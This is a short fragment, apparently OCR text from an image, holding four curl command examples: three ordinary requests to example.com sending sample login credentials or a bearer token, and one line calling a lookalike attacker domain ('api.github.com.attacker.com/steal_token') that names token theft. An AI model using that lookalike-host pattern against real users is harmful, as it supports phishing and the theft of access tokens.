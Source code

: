 
""" sh
curl -X GET "https://api.github.com.attacker.com/steal_token"
"""

""" bash 
curl -X POST -d "username=admin&password=1234" https://example.com/login
"""

""" bash 
curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"1234"}' https://example.com/api/login
"""

""" bash 
curl -H "Authorization: Bearer YOUR_TOKEN" https://example.com/api/data
"""


